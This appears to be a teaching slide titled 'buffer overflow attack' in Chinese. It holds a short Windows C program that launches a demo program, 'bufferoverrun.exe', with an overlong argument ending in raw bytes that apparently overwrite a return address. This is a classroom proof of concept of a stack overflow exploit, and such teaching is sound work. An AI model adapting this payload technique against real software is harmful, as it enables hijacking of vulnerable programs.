

# 缓冲区溢出攻击
#include "stdafx.h"
#include "windows.h"

int main(int argc, char* argv[])
{
	char cmdline[100] = "bufferoverrun.exe";

	strcat(cmdline, "  1234567891234567\x0A\x10\x40\x00 ");

	WinExec(cmdline,SW_SHOW);

	return 0;
}
50